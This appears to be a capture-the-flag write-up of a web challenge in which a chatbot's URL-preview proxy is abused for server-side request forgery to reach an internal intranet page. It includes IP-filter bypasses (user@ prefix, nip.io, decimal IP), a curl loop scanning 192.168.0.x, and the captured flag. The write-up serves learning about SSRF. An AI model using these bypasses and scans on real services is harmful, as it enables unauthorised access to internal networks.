

ChatBot
=======

**Category** : Web  
**Score** : 100 points  
**Solved** : 129 times  

---

>EvilGouv a récemment ouvert un service de chat-bot, vous savez ces trucs que personne n'aime. Bon en plus d'être particulièrement nul, il doit forcément y avoir une faille. Trouvez un moyen d'accéder à l'intranet !
>
>Lien : https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4
>
>Indice : Réseau local
>
>Le flag est de la forme : DGSESIEE{x} avec x un hash

---



The chatbot doesn't seem to do much, but the last reply has a Qwantz embed thinger inside. 

This embed data is retrieved through a call to `/proxy?url=https://www.qwantz.com`, which is triggered whenever a URL is parsed in a chat message.

This also happens for user-submitted messages:

```js
function send(mess) {
    var message = urlify(mess);
    var urls = mess.match(urlRegex);
    if(message.length <= 0){
        return;
    }
    //If URL
    if (urls && urls.length > 0) {
        var url = window.location.href + "proxy?url=" + urls[0];
        fetch(url)
            .then(function (res) {
                console.log(res);
                res.json()
                    .then(function (data) {
                        if(data.err){
                            addMessageUser(message,null);
                            askBot(mess);
                        }
                        else{
                            addMessageUser(message,data);
                            askBot(mess);
                        }
                    }).catch(function (err) {
                        addMessageUser(message,null);
                        askBot(mess);
                    });
            });
    } else {
        addMessageUser(message,null);
        askBot(mess);
    }
}
```

The goal being to get access to the intranet, we want to try hijacking the proxy to make it dump out internal urls.

Following the given clue in the description, we try `/proxy?url=http://192.168.0.1`, but it instantly returns Forbidden.  
Trying `/proxy?url=http://192.168.1.1` also returns Forbidden, and so does any attempt to access an ip like `192.168.x.y`.  
Since something specifically blocks accessing this ip range, there's definitely something to be found there.

To bypass the check, we try `/proxy?url=http://user@192.168.0.1` which returns 'Not found' instead, so either we succeeded to bypass the check, or the proxy just refused to parse our url correctly.  
The same trick with 192.168.1.1, `/proxy?url=http://user@192.168.1.1`, however, stalls for a very long time before giving up with a 504 gateway time-out - and so does any attempt to access an ip like `192.168.x.y` with x >= 1.

Putting all of this together, this looks like we have successfully bypassed the ip check, and that there is something specifically in the `192.168.0.0/24` range.

At this point, against all sense of decency and good taste, there's nothing left to do but bruteforce.


```bash
└─[$] for i in {1..254}; do ip="192.168.0.$i"; echo $ip : $(curl "https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://user@$ip" 2>-); done; done
192.168.0.1 : Not Found
192.168.0.2 : Not Found
192.168.0.3 : Not Found
192.168.0.4 : Not Found
....

192.168.0.68 : Not Found
192.168.0.69 : Not Found
192.168.0.70 : {"contents":"<!DOCTYPE html>
<html>

<head>
 <meta charset=\"utf-8\">
 <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">
 <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/fontawesome/css/all.min.css\" rel=\"stylesheet\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/bootstrap/css/bootstrap.min.css\" rel=\"stylesheet\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/css/style_index.css\" rel=\"stylesheet\">
 <link rel=\"icon\" href=\"/35e334a1ef338faf064da9eb5f861d3c/img/favicon.ico\" />
 <title>Evil Gouv intranet</title>
</head>

<body>
 <div>
 <h1>FLAG DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}</h1>
</div>
</body>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/jquery-3.5.1.min.js\"></script>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/popper.min.js\"></script>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/bootstrap.min.js\"></script>

</html>","title":"Evil Gouv intranet","icon":"Null"}
```

This gives us the flag, `DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}`.


---

#### process

Ugh.

So many things wrong with this challenge. 

First of all, it started out broken - the proxy was just erroring out, revealing a regex filtering out https://www.qwantz.com and the 192.168.x.x ips, which *looked* like it was intentional and exploitable, but it was just broken. On the one hand, I lost a lot of time here for no good reason, but on the other hand, this gave a clue for the actual challenge (that the 192.168.x.x ip range was going to be relevant). Still, very frustrating.

Even after that was fixed, the challenge is just full of unpleasant things. The most misleading thing is that it's actually a fully working reverse proxy - you can pass it any valid http/https url and it will fetch it and display the contents. That's kind of scary in and of itself (I hope nobody used it for evil purposes), but also it's kind of a red herring. 

Since you can access any publically routable domain, one cool idea would be to try to access a public domain which resolves to a 192.168.x.x ip ; either by changing the DNS records of a domain you control, or by using [nip.io](https://nip.io/) ; and this definitely works, for example, `/proxy?url=http://192.168.0.70.nip.io/` successfully bypasses the filter and returns the flag page. The problem being of course, that you already need to know the correct ip for it to work, so even if you get that idea, you most likely won't get anything out of it. 

Even if you limit yourself to SSRFs targetting only local IPs, there's still an insane number of possible ways something like this might be exploited:

 * What if you reflect the proxy on its own pages to get source code or directory listings? 
 * What if you have to find one of the million variants of using a nul byte or another weird char at the correct place in the url to bork the parser (better have an automated fuzzer ready)
 * What if you use a different ip format ? (This one does work: `/proxy?url=http://3232235590`, of course only if you already know the ip)
 * What if you have to figure out a special protocol that the proxy will let you use, besides http and https ?
 * ...and so on.

There's just too many possibilitiies here, and very little feedback from the challenge itself unless you already know where you're going and you're paying very close attention (as you can do in a write-up, but is tremendously harder when you don't even know what you're looking for).

Even the fact that https:// is used for the default qwantz.com embed is frustrating, because it just doesn't work for the internal ips - you could have tried the correct thing in many different ways and have it fail just because of forgetting to try with http (and double the number of things to try).

Finally, and completely bafflingly, `proxy?url=http://intranet` just directly works. Go figure.

The worst and most terrible offender here is the fact that you're expected to bruteforce. I haven't done hacking challenges in a very long time, but it seems to me that one of the core implicit rules is still that you're not supposed to do things that would overload the server and degrade the experience for other users. 

Granted, here it's only 255 ips to bruteforce (assuming you didn't miss any clue - some people asked if it was intended to bruteforce the whole /16 subnet), and you can always ratelimit yourself, but it's still very icky territory. 

I suppose this challenge gets full grade for realism - IRL exploits are often fuzzy and bruteforcey like this - but as a puzzle, it makes for a very frustrating experience.
